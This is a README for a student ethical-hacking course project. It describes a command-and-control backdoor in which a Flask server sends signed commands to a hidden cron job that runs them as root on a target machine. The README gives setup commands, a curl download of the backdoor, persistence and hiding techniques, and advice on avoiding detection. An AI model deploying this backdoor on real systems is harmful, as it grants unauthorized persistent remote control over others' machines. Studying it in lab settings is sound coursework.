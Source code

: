 # Command-Control

## CS378 Ethical Hacking - Command and Control

David Trakhtengerts : dst726 and Ricky Woodruff : rgw664

## Install

### Attack Machine

1. Install dependencies

    ```bash
    cd server
    pip3 install -r requirements.txt
    ```
2. Generate a key pair
    
    Keys should be generated and stored in the `server` directory

    ```bash
    openssl genrsa -out private.pem 1024
    openssl rsa -in private.pem -pubout -out public.pem
    ```
3. Create a `commands.txt` file and fill it with commands to run on the target machine. Each command should be on a new line.

    ```bash
    echo $'pwd\nwhoami\n' > foo
    ```
4. Run the flask server

    ```bash
    export FLASK_APP=attacker-server.py
    flask run --host={Server IP} # server should be reachable from target machine
    # Example: flask run --host={10.0.2.4}
    ```


### Target Machine

1. Download the backdoor repo

    ```bash
    curl -L http://github.com/woodruffr4/Command-Control/archive/main.tar.gz | tar zxf -
    ```
2. From the **attacker machine**, manually copy the contents of public key (`public.pem`) to the `/client` directory on the **target machine**. The new public key should also be named `public.pem`.
    
3. Run the setup script

    ```bash
    cd Command-Control-main/client
    chmod +x setup.sh
    ./setup.sh {Your Server Endpoint}
    # Example: ./setup.sh http://10.0.2.4:5000/commands
    ```
4. Done!

Additionally, you may delete the `Command-Control-main` directory to avoid detection on the target machine.



## How it works

There are two parts to this backdoor, the flask server on the attacker side and the cron job on the target side.

### Cron job

The cron job runs every minute and calls a python script which makes a request to the `/commands` endpoint on the flask server. The server returns a signature and the commands to run. The signature will be verified using the public key and if it is valid, the commands will be run. The output of the commands is forwarded to a log file on the target machine.

### Flask Server

The flask server has one endpoint, `/commands`. This endpoint is used to send commands to the target machine.
The server reads the commands from a file `commands.txt`, and deletes the contents after (to avoid re-executing commands). It then signs the commands with a private key, and sends the signature along with the commands to the target machine.


## How it meets the requirements

1. Provide remote root shell access
    - The attacker can write commands in a file on a machine and the target machine will execute those commands.
2. Persistence
    - The target machine can reboot, and this backdoor will persist automatically because cron jobs are run on boot by default.
3. Configuration
    - The attacker can add commands to the file on their machine.
    - The attacker can configure the server ip, port, and endpoint that the commands come from.
4. Authentication
    - The attacker and target machines use a public/private key pair to authenticate each other.
    - Only the attacker who created the key pair will be able to send commands to the target machine.
5. Hiding
    - Cron job is only visible to root users (typically)
    - All cron related files are hidden by a period in front of the file name to hide from simple `ls` commands

## Detection

- At the user level there is no way to detect this backdoor because users do not have access to the cron directory.
- Root users can see the cron job, .cron.py (if they look closely), and the log file.
